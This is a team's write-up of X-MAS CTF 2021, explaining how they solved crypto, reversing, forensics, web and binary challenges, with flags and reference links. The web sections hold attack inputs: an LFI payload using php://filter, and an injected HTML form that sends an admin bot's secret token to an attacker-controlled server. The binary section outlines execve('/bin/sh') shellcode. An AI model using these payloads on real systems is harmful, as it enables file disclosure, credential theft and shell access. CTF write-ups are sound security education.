




# X-MAS CTF 2021
* Team
  * beep6eepBards
* Member
  * R09921A10
  * R10922056
## Solved
### Cryptography
#### Gnome Oriented Programming
* Description
  > A fellow gnome from Santa's toy factory is trying to learn programming to automate his work, he seems to be stuck with something, see if you can help him.<br>

    
  * ```nc challs.xmas.htsp.ro 1038```
  * [challenge.py](Cryptography/Gnome%20Oriented%20Programming/challenge.py)
* [Solution](Cryptography/Gnome%20Oriented%20Programming/solve.py)
  * It uses OTP to encrypt the message
  * The length of OTP is 128
  * The server will output the encrypted flag
  * The server will also accept for arbitrary input and output the corresponding output
  * The key is reused and therefore we can get the key by xoring input and its corresponding output
  * Then by xoring the encrypted flag with the key we can get the flag
* Flag
  * ```X-MAS{D0n7_Y0u_3v3r_Wr1te_S1n6leton5_F0r_0tp_G3ner4tor5_08hdj12}```

### Reverse Engineering
#### The grinch
* Description
  > Who stole the Christmas? Try and guess.<br>

  
  * [grinch.exe](Reverse/grinch.exe)
* Solution
  * It's actually a DLL file, so I use dnspy to decompile and debug
  * The validation lies in ```button1_Click``` function<br>
    
    * ```Form1.level``` represents the index of array2
    * ```num``` represents the value of the total checkboxes
    * The 8 checkboxes can be viewed as 8-bit value, each bit represents whether the corresponding location of checkbox is checked
    * It will only show the flag if the user can guess correctly four times in a row
  * 154 = 0b10011010
    * pinkiepie, bobi, livian, trupples
  * 43 = 0b00101011
    * yakuhito, livian, trupples, milkdrop
  * 63 = 0b00111111
    * yakuhito, bobi, livian, littlewho, trupples, milkdrop
  * 200 = 0b11001000
    * pinkiepie, avlad, livian
* Flag<br>
  
  * ```X-MAS{well....who_is_it?}```

### Forenscis
#### Super Secret Communications
* Description
  > Okay, the note's right here. Hold on... uh... Okay.
  >
  >> You'll never discover our secrets! Our method is so secure you'll never get in! We've even given you a full packet capture of everything we sent! Do your worst, ELVES!
  >
  > Yeah, we don't know either. Just try to find the secret message.
  * [captured.pcap](Forenscis/captured.pcap)
* Solution
  * Most of the packet is not in plaintext
  * The secret messages hide in the packets and they all have pattern ```Your hint is "SECRET" >> SECRET```<br>
    
  * Concatenate all the secrets to get the flag
* Flag
  * ```X-MAS{y0u_cr4CK4d_thE_c0d3!_afa03819def2f}```

### Web Exploitation
#### P.A.I.N.T.: Professional Arctic Interactive NT drawing service
* Description
  > Ah, a painting service! What a relaxing way to spend Christmas. Let's see what "oeuvres d'art" people come up with. Play nice, or you will end up on the naughty list!
  * ```http://challs.xmas.htsp.ro:6004/?page=game.php```
* Solution
  * ```http://challs.xmas.htsp.ro:6004/robots.txt``` can leak some information about website's hidden path
    ```html
    User-agent: Googlebot
    Disallow: /flag.php
    Disallow: /api.php

    User-agent: *
    Allow: /
    ```
    * Find flag.php
  * The URL seems to have LFI vulnerability due to the ```?page=``` pattern<br>
    
    * Verify by ```/etc/passwd```
  * Use php filter protocol to get the ```flag.php``` file in base64 encoding
    * ```http://challs.xmas.htsp.ro:6004/?page=php://filter/convert.base64-encode/resource=flag.php```
    * ```PD9waHAKCiRmbGFnID0gIlgtTUFTe1A0MU5UX1c0Uj8/X0lUJ1NfTElLM180bl8zZDF0X3c0cixidTdfdzF0aF9wMXgzbDVfMzBjMW45OGN9Ijs=```
      * ```php
        <?php

        $flag = "X-MAS{P41NT_W4R??_IT'S_LIK3_4n_3d1t_w4r,bu7_w1th_p1x3l5_30c1n98c}";
        ```
* Flag
  * ```X-MAS{P41NT_W4R??_IT'S_LIK3_4n_3d1t_w4r,bu7_w1th_p1x3l5_30c1n98c}```
#### Mem-X
* Description
  > Do you ever find yourself forgetting about {mem_promo_list_rnd}? Well, you're not alone. That's why we created Mem-X, rigorously designed through hundreds of medical and psychological trials to be the perfect memory preservation system. You can find the Discord bot on the X-MAS CTF server, it is the Mem-X#0493 user.
  >
  > Start your memory journey today with !help.
  >
  > Hint: Flag is in /flag.txt
* Solution
  * Typing ```!help```
    ```shell
    + !note
        = !note [note text]     | make a new note! you will never forget it.

    + !remember
        = !remember [notehash]  | remember a note! you'll need the hash you got when you made it.
    ```
  * Typing ```!note test```
    ```shell
    Your note has been saved! Here's its hash: 53a2562a4a5c056ae5bed4c6dda4861c
    Use that (!remember 53a2562a4a5c056ae5bed4c6dda4861c) to remember your note!
    ```
  * Typing ```!remember 53a2562a4a5c056ae5bed4c6dda4861c```
    ```shell
    Here's your note!
    test
    ```
  * The Hint tells us the flags is in /flag.txt, so we need to try to read the /flag.txt by using command ```!remember```
  * Fuzz with this command to figure out how it works<br>
    
    * It seems that it reads the file with the name which equals to the firat argument and append with string ```.txt```
  * Test with command ```!remember /flag``` and get the flag
* Flag<br>
  
  * ```X-MAS{f0rgEtt1nG_EvEry7h1Ng_abf91b10e019c}```

## Unsolved
* The solutions were learned by others' writeup
### Cryptography
#### One Time Present
* Description
  > We think that someome might have infiltrated into Santa's Secret Laboratory. Our elf technicians located a weird looking file on one of our terminals, but they were unable to find out what it does because for some reason all of them had closed their eyes. Please find out what the impostor was doing in our lab.
  * [chall](Cryptography/One%20Time%20Present/chall)
* Solution
  * Program logic
    * The program will first read flag with length 0x4d
    * Then it'll read a random number from ```/dev/urandom``` and use it as the value of key for one time pad
    * Encryption can be done with unlimitied times while the plaintext will always be flag and the key is regenerated during each encryption
    * The cipertext is available
  * The vulnerability lies in the way how it filters the random number
    ```c
    while ( strlen(otp) != 0x4D )
      fread(otp, 0x4EuLL, 1uLL, urandom);
    ```
    * It'll continuously read the random number until the length of otp is 0x4d, which means it won't accept null bytes inside otp
    * Without null bytes, the result of each byte of the ciphertext will never be the same as the corresponding plaintext
  * By collecting enough ciphertext, the flag will be the missing value of each byte
    * Since the server might time out, we can record the result in a file and use it as reference
* Flag
  * ```X-MAS{bu7_1_7h0u6h7_7h47_0n3_71m3_P4dS_4r3_supP0S3d_70_b3_s3CUR3_Jv903eRJV98}```
* Reference
  * [Seraphin](https://github.com/Seraphin-/ctf/blob/master/xmas2021/crypto/one_time_present.py)
### Reverse Engineering
#### Intensive training
* Description
  > Santa's coming and he wants to check on your progress. He said: "Bulk, cut or no gifts"
  * [training.exe](Reverse/Intensive%20training/training.exe)
* [Solution](Reverse/Intensive%20training/solve.py)
  * The main function is at offset 0x140001290
  * It includes several conditions for verifying
  * First, the input taken by ```cin``` is equal to ```nimic_interesant```, which will latter be used as key<br>
    
  * Inside sub-function at offset 0x140002240, It's trying to read the contents of a file named "nothing"
    * The file and its content need to be manually created before the program executed
    * The file should be stored at the same location as the program
  * The content of the file will then XORed with the key
  * The result should have length=34 and the value should be the same as array started at 0x140004508
  * If the result matches, It'll then output ```Nice. Now go get your presents :D```
* Flag
  * ```X-MAS{Now_you're_ready_for_hohoho}```
* Reference
  * [Varun_5](https://www.twitch.tv/varun_5)
#### Ahoy
* Description
  > When Alexander Graham Bell was working on the first digital santaphones, he kept saying... (flag format: X-MAS{lowercase_english_words_with_underscores})
  * [ahoy.exe](Reverse/Ahoy/ahoy.exe)
  * [ahoy.pcapng](Reverse/Ahoy/ahoy.pcapng)
* [Solution](Reverse/Ahoy/solve.py)
  * First analyze the packet to figure out what might the program will do
  * After quick scan on each packet's Info, There's some interesting information when using condition ```udp.stream eq 6```, i.e., ```_airplay._tcp.local```, which is related to Apple AirPlay-capable video. Thus, it might be transforming some audio data
  * The main function is at offset 0x140001300
  * In brief, it first open an audio device with bitspersample 8 channels 1 samplespersec 11025 and saved to a file named bell.wav. Then the content is copied to a new malloc space and the function at offset 0x140001000 is called for obfuscating the content and saved to a new buffer. Last, the process sends the obfuscated content to ```46.101.240.46```
  * Since we have the network packets, and the algorithm used for obfuscation, we can try to do deobfuscation
  * Obfuscation
    * First loop<br>
      
      * After verifying the length is valid, the outer loop is executed three times and the inner loop is traversing through the input array
      * The logic of inner loop is simple, ```array[i] = (array[i] + array[i+1])>>2```, and remember it's going to be executed three times
    * Second loop<br>
      
      * It's counting the length of the output
      * Conditions are explained in the figure
    * Third loop<br>
      
      * The third loop modifies the value again
      * All the calculation is explained in the figure
      * The condition in the loop is identical to the condition in the second loop
      * Only the values that met the condition will be sampled and therefore it's not possible to retrieve the complete original audio, but knowing the sample bytes might be enough to recover a useful audio file
  * Use Piecewise constant interpolation scheme to recover the smoothed signal
  * Data can be extracted from Wireshark with condition ```ip.addr == 192.168.0.102 && ip.dst==46.101.240.46```<br>
    
    * The first two are TCP handshake
    * The last two aren't part of the transformed data
    * There are totally 15 packets of obfuscated data
* Flag
  * ```X-MAS{i_alexander_graham_bell_am_actually_santa_claus}```
* Reference
  * [Nave1377](https://nave1337.herokuapp.com/index.html#xmas2021_ahoy)

### Forenscis
#### The Object
* Description
  > The Object was given by an, um, "Agent", I think they called themselves... we have no leads on what it does. Please help.
  * [object](Forenscis/The%20Object/object.acs)
* Solution
  * Need to figure out what kind of file the object is
  * Use Bin Text to search for interesting printable asciis<br>
    
    * There are lots of strings that looks like function name
    * By googling these keyword with the hint given by the challenge itself "Agent", we can know that it's actually ```Microsoft Agent```
  * There are several tools to decompile such file, I use  [MSAgent Decompiler](http://msagent.lebeausoftware.org/software/decompile.aspx) for decompiling
  * The flag is split into two image files
    * [0897.bmp](Forenscis/The%20Object/object%20ACS%20Decompiled/Images/0897.bmp)
    * [0981.bmp](Forenscis/The%20Object/object%20ACS%20Decompiled/Images/0981.bmp)
* Flag<br>
  * ```X-MAS{dISConT1nu3D_S1nc3_wInXP_o13bcof}```
* Reference
  * [plaaosert](https://plaao.net/)
#### Underground forensics
* Description
  > [Incoming SMS Message]
  > From: Rachel
  > Subject: New File
  > 
  >  Hey! I found this on my old hard drive. Files like these have been roaming the streets for almost two decades now, but this one seems to be broken in some way... Do you think you can bring it back to life?
  * [UNK.BIN](Forenscis/Underground%20forensics/UNK.BIN)
* Solution
  * binwalk shows it's a lzma file, but apparently this's not true. The extracted lzma file cannot be decompressed successfully
  * After searching with hex editor, there's a repetitive pattern ```JDLZ```, which indicates that this is a compressed file used in Xbox 360 games
    * After more searching, it's actually a compressed file belongs to ```Need For Speed underground 2``` due to the challenge's name and another interesting strings in the file ```3.000GT``` a.k.a ```Mitsubishi 3000GT``` which is exclusively included in this game
  * However, the file seems to be corrupted and cannot be opened correctly. To understand the real file structure, I download a [car's mod](https://www.nfsaddons.com/downloads/nfsug2/cars/chevrolet/6426/chevrolet-chevrolet-impala-ss-2000.html) from the website and analyze the included files
    * ```geometry.bin```
    * ```textures.bin```
  * After converting the first four bits ```lmao``` of UNK.BIN into ```geometry.bin```'s MAGIC bytes ```00 40 13 80```, the file can be successfully opened by [NFS-CarToolkit 3.1](https://onedrive.live.com/download?cid=1DBDF62BC3C2B05B&resid=1DBDF62BC3C2B05B%21164&authkey=ALvMb6xxbibwBoY)
  * Canceling the car object, the flag can be found
* Flag<br>
  
  * ```X-MAS{I_am_R0ck_123127cy13a}```
* Reference
  * [K1nd4SUS](https://github.com/K1nd4SUS/CTF-Writeups/tree/main/X-MAS_CTF_2021/Underground%20Forensics)

### Web Exploit
#### QuoteHub
* Description
  > I sent a very cool quote to QuoteHub, but the admin didn't approve it. I don't care whether Thomas Edison said it or not; I just want it to appear on the front page. Could you help me?
  * ```http://challs.xmas.htsp.ro:3007/```
  * [quotehub](Web/QuoteHub/quotehub)
* Solution
  * First take a look at [main.py](Web/QuoteHub/quotehub/files/main.py)
    * There are totally three pages
    * ```/```
      ```python
      @app.route ('/', methods = ['GET'])
      def index():
          return render_template ("index.html", quotes=quotes)
      ```
    * ```/submit```
      ```python
      @app.route ('/submit', methods = ['GET', 'POST'])
      def submit():
          if request.method == 'GET':
              return render_template ("submit.html")

          quote = request.form.get('quote')
          author = request.form.get('author')
          if not isinstance(quote, str) or not isinstance(author, str) or len(quote) > 256 or len(quote) < 8 or len(author) > 32 or len(author) < 4:
              return 'NOPE'

          quote_obj = {
              'text': quote,
              'author': author
          }
          pending_quotes.append(quote_obj)
          return render_template ("submit.html", message=f"Quote submitted successfully.")
      ```
      * We can submit quote and author but the result cannot be seen on the website
    * ```/quote/latest```
      ```python
      @app.route ('/quote/latest', methods = ['GET', 'POST'])
      def quote():
          global pending_quotes
          if request.method == 'GET':
              if request.cookies.get('admin_cookie', False) != ADMIN_COOKIE or len(pending_quotes) == 0:
                  return 'NOPE'
              q = pending_quotes[0]
              pending_quotes = pending_quotes[1:]
              print("Admin viewing quote: ", q)
              return render_template ("quote_review.html", quote=q, SECRET_TOKEN=SECRET_TOKEN)

          action = request.form.get('action')
          secret = request.form.get('secret')
          if not isinstance(action, str) or action not in ['APPROVE', 'REJECT'] or secret != SECRET_TOKEN:
              return 'NOPE'

          if action == "REJECT":
              return redirect("/list", code=302)

          return "You did it! Here's your reward: " + FLAG
      ```
      * ```FLAG``` is read from ```os.environ```
      * ```ADMIN_COOKIE``` is read from ```os.environ```
      * ```SCRET_TOKEN``` is a random number
      * Since we don't have ```ADMIN_COOKIE```, instead of returning ```FLAG``` it'll just return 'NOPE'
      * ```FLAG``` will be returned if some one who has ```SECRET_TOKEN``` and ```APPROVE``` the quote with ```POST``` request
  * Now take a look at [bot.py](Web/QuoteHub/quotehub/bot/bot.py)
    ```python
    # print("get /quote/latest", flush=True)
    driver.get('http://127.0.0.1:2000/quote/latest')
    
    # print("reject button - press", flush=True)
    rejectBtn = WebDriverWait(driver, 5).until(
      EC.presence_of_element_located((By.CLASS_NAME, "red"))
    )
    rejectBtn.click()

    # print("sleep 3", flush=True)
    time.sleep(3)
    ```
    * The bot is going to automatically click on the button if its class name is ```red```
    * The bot has ```ADMIN_COOKIE``` and thus when it views the ```quote_review.html``` it can see the quotes added by clients. Moreover, ```SECRET_TOKEN``` is a hidden value in form
      ```html
      <form method="POST">
        <input type="hidden" name="secret" value="{{SECRET_TOKEN}}">
        <input class="btn green" type="submit" name="action" value="APPROVE">
        <input class="btn red" type="submit" name="action" value="REJECT">
      </form>
      ```
  * We can take advantage of the bot and make it click on our fake ```red``` button in the fake form which will sent form parameters and their corresponding values including ```SECRET_TOKEN``` to our server
    * ```<form method="POST" action="[CONTROLED-SERVER-URL]"><input class="red" type="submit" name="action" value="APPROVE">```<br>
    
  * With ```SECRET_TOKEN``` and correct action we can send ```POST``` request to ```/quote/latest``` and get the ```FLAG```
    * ```curl -X POST -d "action=APPROVE&secret=4cb386b57ea526f9d72aa2fd76f97e143f1e51174b66cfe92ef0fbb5f4a20be71cf9f1463369305278aa4502fe34461c8a0e575d4c31aa31386177a68919e65a" http://challs.xmas.htsp.ro:3007/quote/latest```
* Flag
  * ```X-MAS{got_teh_secret-f8ba357874717b6142e8219b}```
* Reference
  * [Rullian](https://github.com/Ruulian/writeups/tree/main/xmas-2021/quotehub)

### Binary Exploitation
#### W=X
* Description
  > Yea yea DEP has been here for a while, we all know about W^X, get over it, nerd. We're here for the real deal, W=X! Gimme you shellcodez
  * ```nc challs.xmas.htsp.ro 2001```
  * [wex.py](Binary%20Exploitation/W=X/wex.py)
* Solution
  * The program is going to retrieve a shellcode in hex string with length < 25
    * The shellcode will be written to a random address
  * Function ```hook_syscall64``` indicates that this emulation is going to execute only several syscall commands
    * read
    * write
    * open
    * close
    * execve
    * exit
  * The stack size is 4096 = 0x1000 and rsp is set to the top of stack while rbp is not set
  * The rip will be moved to the first address we write due to the ```hook_mem_write``` function and this function will also be called in ```sys_read``` function
    * It explains the meaning of the challenge's name, i.e., where we write is where it executes
  * Basic ```execve('/bin/sh')``` will not work since if we push the string '/bin/sh' to the stack , it'll called ```hook_mem_write``` and the emulator will try to execute the string as instruction
    * ```push``` instruction is not allowed
  * So instead of pushing strings to stack, we can first call ```read(fd = stdin, buf_addr = rbp, count = stack_size) ```, then jump to the address = rbp. The ```read``` function will further take our upcoming inputs and write to the stack starting from rbp, thus the address of ```'/bin/sh'``` can now be calculated with offset from rbp
    * choose rbp as our target due to this is the only address with enough size we know which is valid in the program
    * The ```'/bin/str'``` will still be considered as instruction but we'll call ```execve('/bin/sh', argv, envp)``` before rip moves to the string address. Therefore we'll get the shell before it corrupts
    * ```argv``` and ```envp``` needs to point to a valid address with null bytes, this can be done with the same trick as ```'/bin/sh'```, i.e., sends null bytes and calculate the address with offset from rbp
* Flag
  * ```X-MAS{7c4c67665ca44cd3f651bbb22631a41c}```
* Reference
  * [bricked.tech](https://discord.com/channels/519974854485737483/657662810045677602/922257964784558080)